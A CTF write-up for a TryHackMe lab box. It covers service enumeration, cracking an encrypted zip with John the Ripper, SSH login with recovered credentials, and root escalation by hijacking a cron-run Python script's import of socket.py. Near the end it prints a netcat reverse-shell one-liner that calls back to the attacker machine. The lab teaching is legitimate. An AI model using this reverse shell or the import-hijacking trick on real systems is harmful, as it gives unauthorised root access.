 # THM SecDSM-Dec22-MiniCTF Writeup

​		November 22<sup>nd</sup> 2022

​		writeups@centraliowacybersec.com

​		[Box Link](https://tryhackme.com/jr/secdsmdecember22minictf)

 
## Skills Needed or Learned
1. Web Service Enumeration.
1. Cracking an encrypted zip file.
1. Linux Privesc with Permission Misconfiguration


### Description:

This is the official writeup for the box. This is my first boot2root for a public audience so feedback is highly desired! Have fun and please reach out to me for any questions related to the box!

### Difficulty: Easy

# Hosts File

`sudo nano /etc/hosts`

add a line with the remote IP and the dns entry


`<IP> secdsm.thm`

# Enumeration

Start with basic and advanced NMAP scans on the box.

`nmap -v secdsm.thm`
![image](https://user-images.githubusercontent.com/43767555/203445905-4d04de66-d01c-48f0-9407-229137a38694.png)

`nmap -p 22,80 -A -sC -sV -v secdsm.thm`
![image],(https://user-images.githubusercontent.com/43767555/203445915-0b21ff59-a63c-4ecb-8c61-27616b5fb5ab.png)

HTTP and SSH are open. HTTP is always a pretty interesting place to start.

After spending some time on the site, a lot of links don't go anywhere but one does go to a broken link which is very interesting.

![image](https://user-images.githubusercontent.com/43767555/203446098-4fd83d1b-62b0-48ab-aa63-518c8a3758bf.png)
![image](https://user-images.githubusercontent.com/43767555/203446104-ca0609f7-04f1-4e04-a431-314c465fe0e6.png)

I checked the link in burp with the same results.

There are two routes here.
1. Edit the hosts file to match the url in the broken link
1. Edit the link to point to the machiine's known IP.

![image](https://user-images.githubusercontent.com/43767555/203446466-85f0dc87-dd5d-4d88-81d1-b8de05635a98.png)

This got me a download for the file.

![image](https://user-images.githubusercontent.com/43767555/203446486-7b086bfa-12b4-49fa-822a-1b8f81d5d705.png)

# Foothold

The file is encrypted but it seems to hold something called backup.txt.

![image](https://user-images.githubusercontent.com/43767555/203446633-38e82173-bffe-4005-8558-a5e61838193f.png)
![image](https://user-images.githubusercontent.com/43767555/203446679-2d9c099d-892a-4ede-80be-2de595097022.png)

This command will only work out of the box on later versions of Kali. You can download or search for this on your machine as well.

`zip2john temp.zip > hash`
![image](https://user-images.githubusercontent.com/43767555/203447619-fba66001-9dea-459e-b14c-ff1b3813db41.png)

Next is to crack this hash with john.

`john hash --wordlist=/usr/share/wordlist/rockyou.txt`

![image](https://user-images.githubusercontent.com/43767555/203447633-1cc3421b-1cd5-427a-8e26-46856d178fff.png)

This crack was succesful!

`unzip temp.zip`
`<password>`

![image](https://user-images.githubusercontent.com/43767555/203447877-2fb0f021-cce0-4554-bd42-55ef4394cd2f.png)
![image](https://user-images.githubusercontent.com/43767555/203447889-209d36d1-c1a6-4e88-8e9f-892d19423b55.png)

This file contained what looks like user creds that we can try on the open SSH port.

Back on the Attack machine, attempt to login to the.

`ssh kinder@secdsm.thm`

![image](https://user-images.githubusercontent.com/43767555/203448008-5ecb6140-d47d-4a73-84c6-7ffdeab0f424.png)

Here we can see the user.txt file, first flag down!

![image](https://user-images.githubusercontent.com/43767555/203448073-aaf7cf10-878b-428f-9e19-0df367aa9904.png)

# Privilege Escalation

The next part comes with Linux Privesc enumeration but we need to look for Cron Jobs or follow the proccesses on the machine to see what's happeneing behind the scenes.

On the attackbox get pspy downloaded from github.

`wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s`

From here we can host a temp pthon webservber to move it onto the victim machine.

`sudo python3 -m http.server 80`

![image](https://user-images.githubusercontent.com/43767555/203450435-ac957f3b-9332-422e-b93d-2fefde30d730.png)

Download it onto the victim machine.

`wget http://192.168.59.131/pspy64s && chmod 777 pspy64s`

![image](https://user-images.githubusercontent.com/43767555/203450549-725b9440-c1fe-4192-888b-ea5ce0a8cbda.png)
![image](https://user-images.githubusercontent.com/43767555/203450555-0e39858b-fbb9-4766-89f5-fe40d1b6c38f.png)

This succesfully exposed a root cron job that we couldn't see from the public /etc/crontab file.

![image](https://user-images.githubusercontent.com/43767555/203450599-59ec8156-ef63-4932-9c74-2ac168593ada.png)

This shows some interest to this globally writeable directory inside of /opt/

![image](https://user-images.githubusercontent.com/43767555/203450667-94dad0e8-3cbb-4ffc-a3e8-a6d7ff62b0c6.png)

updog.py is not globally writeable though.

I wonder what updog.py is?

`whatis updog.py`

![image](https://user-images.githubusercontent.com/43767555/203450755-e9cbb752-7951-4cdc-80f9-095713add631.png)

Oh wait, wrong command!

![image](https://user-images.githubusercontent.com/43767555/203450769-ef6eb46f-ea13-4040-83a8-2f2791c97cab.png)

It looks like this script is checking if port 80 is online on localhost. If it isn't then it restarts the apache service. This is all pretty simple but on it's own not exploitable. What is exploitable is the writeable directory the file lives in.

Python imports modules in a specific order and iut is possible to exploit this given the right parameters.
1.    The current directory (same directory as script doing the importing).
1.    The library of standard modules.
1.    The paths defined in sys.path.*

[Source](https://www.webucator.com/article/how-python-finds-imported-modules)

Let's pull in the real sockets.py file into the directory and modify it to exploit this configuration vulnerability on the machine.

`find / -name socket.py 2>/dev/null`
`cp /usr/lib/python3.10/socket.py .`


![image](https://user-images.githubusercontent.com/43767555/203451434-4f756d72-8933-4466-a17f-fe6a1e57ae2d.png)

With the file succesfully pulled into the directory we can now build a reverse shell back to the attackbox.

[Revshells.com](https://revshells.com)

![image](https://user-images.githubusercontent.com/43767555/203451481-0b4b7008-3976-4d6e-97f6-9d338cc80362.png)

I checked for nc before building the shell.

`which nc`

![image](https://user-images.githubusercontent.com/43767555/203454997-2c92d5d6-9325-4a98-9e23-89e9b2c34734.png)


`echo 'os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.59.131 80 >/tmp/f")' >> socket.py && tail -n 10 socket.py`

![image](https://user-images.githubusercontent.com/43767555/203455333-7cacc5bd-72e6-4a22-ad10-70cb465abe84.png)

This pops a root shell on the attackbox where the root flag can be grabbed to finish!

![image](https://user-images.githubusercontent.com/43767555/203455377-9af29b7d-8ad6-4988-97ce-8573f8344412.png)
